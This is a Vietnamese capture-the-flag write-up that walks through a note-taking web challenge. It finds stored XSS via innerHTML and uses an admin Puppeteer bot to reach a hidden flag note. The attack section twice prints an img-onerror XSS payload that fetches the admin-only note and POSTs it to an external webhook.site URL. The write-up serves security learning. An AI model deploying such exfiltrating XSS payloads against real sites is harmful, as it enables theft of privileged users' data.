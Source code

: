 - Về cấu trúc thư mục của challenge này như thế này ạ
![alt text](image.png)

- Chức năng chung của ứng dụng là viết notes và xem note của mình vừa mới tạo ạ.

- vì trước em chưa làm chall này cho nên em build docker lại để test ạ.

- Khi em vào thì giao diện trang chính như này 
![alt text](image-1.png)

- Khi mà em viết note sau submit thì sẽ thực hiện fetch api với hàm này

submitNote.addEventListener('click', (event) => {

    typeMessage('Saving your note...');

    fetch('/submit', {
            method: 'POST',
            body: JSON.stringify({
                message: input.value,
            }),
            headers: {
                'Content-Type': 'application/json',
            },
        })
        .catch(error => {
            typeMessage(error);
        })
        .then(response => response.json()
            .then(data => {
                if (response.status !== 201) {
                    typeMessage(data.message);
                } else {
                    setTimeout(() => {
                        window.location = '/notes?uuid=' + data.message;
                    }, 2000);
                }
            }));
});

- Và chuyển đến xem note của em vừa tạo
![alt text](image-2.png)

- ở trang này thì sẽ thực hiện load note hiện tại của em và hiển thị như trên
const loadNote = () => {
  fetch(`/note/${currentNote}`)
    .then(response => response.json())
    .then(data => {

      if (data.error) {
        note.style.display = 'none';
        errorMessage.style.display = '';
        errorMessage.textContent = data.error;
        return;
      }

      note.style.display = '';
      errorMessage.style.display = 'none';
      noteText.innerHTML = data.message;
    });
};

loadNote();


## App sử dụng sqlite để thực hiện lưu trữ thông tin

const sqlite = require("sqlite-async");


## Phân tích

class Database {
    constructor(db_file) {
        this.db_file = db_file;
        this.db = undefined;
    }

    async connect() {
        this.db = await sqlite.open(this.db_file);
    }

    async migrate() {
        return this.db.exec(`
            DROP TABLE IF EXISTS notes;

            CREATE TABLE IF NOT EXISTS notes (
                uuid      VARCHAR(300) NOT NULL,
                message   VARCHAR(300) NOT NULL,
                hidden    INTEGER NOT NULL
            );

            INSERT INTO notes (uuid, message, hidden) VALUES
                ("1", "Merry christmas ! KCSC{fakeflag}.", 1)
            `);
    }

    async getNote(uuid) {
        return new Promise(async(resolve, reject) => {
            try {
                let stmt = await this.db.prepare("SELECT * FROM notes WHERE uuid = ?");
                resolve(await stmt.get(uuid));
            } catch (e) {
                reject(e);
            }
        });
    }

    async insertNote(message, uuid) {
        return new Promise(async(resolve, reject) => {
            try {
                let stmt = await this.db.prepare("INSERT INTO notes (uuid, message, hidden) VALUES (?, ?, ?)");
                await stmt.run(uuid, message, false);
                resolve(uuid);
            } catch (e) {
                reject(e);
            }
        });
    }
}

module.exports = Database;


chú ý 2 routes này:
   async getNote(uuid) {
        return new Promise(async(resolve, reject) => {
            try {
                let stmt = await this.db.prepare("SELECT * FROM notes WHERE uuid = ?");
                resolve(await stmt.get(uuid));
            } catch (e) {
                reject(e);
            }
        });
    }

    async insertNote(message, uuid) {
        return new Promise(async(resolve, reject) => {
            try {
                let stmt = await this.db.prepare("INSERT INTO notes (uuid, message, hidden) VALUES (?, ?, ?)");
                await stmt.run(uuid, message, false);
                resolve(uuid);
            } catch (e) {
                reject(e);
            }
        });
    }


- Chức năng report to bot:
const reportToBot = () => {
  typeMessage('Bot is visiting...');
  fetch(`/visit/${currentNote}`)
    .then(response => response.json())
    .then(data => {
      if (data.error) {
        alert(data.error)
        return;
      }
      alert(data.message)
      location.reload();
    });
};
- Sẽ gọi đến api:
const puppeteer = require('puppeteer');

const browser_options = {
    headless: true,
    args: [
        '--no-sandbox',
        '--disable-background-networking',
        '--disable-default-apps',
        '--disable-extensions',
        '--disable-gpu',
        '--disable-sync',
        '--disable-translate',
        '--hide-scrollbars',
        '--metrics-recording-only',
        '--mute-audio',
        '--no-first-run',
        '--safebrowsing-disable-auto-update',
        '--js-flags=--noexpose_wasm,--jitless'
    ],
};

const visit = async(url, authenSecret) => {
    try {
        const browser = await puppeteer.launch(browser_options);
        let context = await browser.createIncognitoBrowserContext();
        let page = await context.newPage();

        await page.setCookie({
            name: 'auth',
            value: authenSecret,
            domain: '127.0.0.1',
            httpOnly: true, // stay away from my cookie
        });

        await page.goto(url, {
            waitUntil: 'networkidle2',
            timeout: 5000,
        });
        await page.waitForTimeout(3000);
        await browser.close();
    } catch (e) {
        console.log(e);
    }
};

module.exports = visit;

Thư viện puppeteer có tác dụng:
- Truy cập vào trang web: Puppeteer được sử dụng để mở một trình duyệt ẩn danh và truy cập vào một URL được chỉ định. Trong trường hợp này, URL được truy cập là /visit/${currentNote}.

- Tương tác với trang web: Sau khi trang web được tải, Puppeteer có thể thực hiện các hành động như click vào nút, điền vào biểu mẫu, hoặc thậm chí thực hiện các hành động phức tạp hơn như cuộn trang hoặc thao tác với các phần tử trên trang.

- Xử lý kết quả: Sau khi thực hiện hành động trên trang web, Puppeteer có thể trích xuất thông tin từ trang hoặc xử lý kết quả như thông báo thành công hoặc lỗi.

- Chức năng này sẽ check xem bạn có phải admin không

+ Mấu chốt ở đây là XSS ở file viewnote.js
  noteText.innerHTML = data.message;
  - Việc sử dụng hàm này khiến cho chúng ta có thể XSS được và hướng khai thác là dùng XSS
  - Luồng ở đây là em sẽ tạo XSS vào trang viewnote của em
  - Quan sát em thấy Flag lưu tro g database với uuid là 1 và getNote cần phải là admin mới có thể thực hiện được
     INSERT INTO notes (uuid, message, hidden) VALUES
                ("1", "Merry christmas ! KCSC{fakeflag}.", 1)
  - Em sẽ dùng payload
                 <img src=x onerror=fetch('/note/1').then(function(r){r.text().then(function(d) 
                  {fetch('https://webhook.site/70dc46e3-14af-4607-b0fb-d5c84805a419',{method:'POST',body:d})})})> 
  -  Tận dụng XSS em sẽ dùng một promise để fetch get note uuid là 1 vì khi report cho bot có quyền như amin cho nên có thể fetch được sau đó sẽ gửi kết quả tới webhook của em.



## Tấn công
- Đầu tiên em thử test XSS với payload
                  <img src=x onerror=alert(1)>

- Và quả thực thành công
![alt text](image-3.png)

- Em sẽ sử dụng payload:
<img src=x onerror=fetch('/note/1').then(function(r){r.text().then(function(d) 
                  {fetch('https://webhook.site/70dc46e3-14af-4607-b0fb-d5c84805a419',{method:'POST',body:d})})})>

- sau khi em report trang này cho bot thì bot sẽ đọc
![alt text](image-4.png) 
- Và em XSS được
![alt text](image-5.png)
- Flag em nhận được là:
![alt text](image-6.png)


